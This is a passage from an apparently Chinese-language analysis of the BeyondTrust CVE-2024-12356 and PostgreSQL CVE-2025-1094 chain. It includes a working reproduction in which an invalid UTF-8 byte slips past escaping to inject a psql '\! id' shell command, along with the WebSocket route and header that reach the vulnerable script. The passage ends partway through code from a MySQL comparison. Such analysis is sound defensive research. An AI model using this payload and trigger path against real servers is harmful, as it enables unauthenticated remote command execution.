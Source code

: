 ```php
\! [ command ] 
With no argument, escapes to a sub-shell; psql resumes when the sub-shell exits. With an argument, executes the shell command command.

Unlike most other meta-commands, the entire remainder of the line is always taken to be the argument(s) of \!, and neither variable interpolation nor backquote expansion are performed in the arguments. The rest of the line is simply passed literally to the shell.
```

通过如下方式模拟实现SQL注入以及命令执行：

```bash
$ quoted=$(echo -e "hey\xC0'; \! id ## " | ./dbquote)
$ echo "SELECT COUNT(1) FROM gw_sessions WHERE session_key = $quoted AND session_type = 'sdcust' AND (expiration IS NULL OR expiration>NOW())" | $db -e
SELECT COUNT(1) FROM gw_sessions WHERE session_key = 'hey└';
ERROR:  invalid byte sequence for encoding "UTF8": 0xc0 0x27
uid=1000(test) gid=1000(test) groups=1000(test),16(cron),70(postgres)
```

前文中`pg_escape_string`转义配合这里的`psql`，构成了实际上的`CVE-2025-1094`漏洞。下面是Postgres官方的说明：

```bash
Improper neutralization of quoting syntax in PostgreSQL libpq functions PQescapeLiteral(), PQescapeIdentifier(), PQescapeString(), and PQescapeStringConn() allows a database input provider to achieve SQL injection in certain usage patterns. Specifically, SQL injection requires the application to use the function result to construct input to psql, the PostgreSQL interactive terminal. 
```

可以看出来，`CVE-2025-1094`不仅包括`PQescapeString`，还涉及`PQescapeLiteral`，`PQescapeIdentifier`和`PQescapeStringConn`。

#### 2.4 触发流程

`CVE-2024-12356`通过`WebSocket`访问`BeyondTrust`认证前路由`/nw`，将HTTP中的`Sec-WebSocket-Protocol`子协议头设定为`ingredi support desk customer thin`（以及设定一些其它类似Host的必需参数），即可访问到`thin-scc-wrapper`脚本。

`thin-scc-wrapper`脚本中`$gskey`变量数据来自`WebSocket`数据流，用户可控。可通过特殊构造的`Invalid UTF-8 0xC0, 0x27`绕过`dbquote`脚本中的`pg_escape_string`转义即`CVE-2025-1094`，并拼接到SQL语句中实现SQL注入【注入`psql`元命令`\! [ command ] `语句】。

包含`SQL`注入的字符串，被传递到`psql`解释，触发元命令`\! [ command ] `执行。

### 三、拓展分析

既然`Postgres`存在这个问题，那么其它的开源数据库是否有类似的问题呢？

#### 3.1 Mysql分析

使用`Mysql`时，类似的转义方法有`mysqli_real_escape_string(mysqli $mysql, string $string): string`。`mysqli_real_escape_string`会调用`mysql_real_escape_string_quote`，而`mysql_real_escape_string_quote`等同于`mysql_real_escape_string`。

```clike
// mysqli_api.c from php-src
PHP_FUNCTION(mysqli_real_escape_string) {
	MY_MYSQL	*mysql;
	zval		*mysql_link = NULL;
	char		*escapestr;
	size_t			escapestr_len;
	zend_string *newstr;

	if (zend_parse_method_parameters(ZEND_NUM_ARGS(), getThis(), "Os", &mysql_link, mysqli_link_class_entry, &escapestr, &escapestr_len) == FAILURE) {
		RETURN_THROWS();
	}
	MYSQLI_FETCH_RESOURCE_CONN(mysql, mysql_link, MYSQLI_STATUS_VALID);

	newstr = zend_string_safe_alloc(2, escapestr_len, 0, 0);
    // mysqli_real_escape_string 会调用 mysql_real_escape_string_quote
```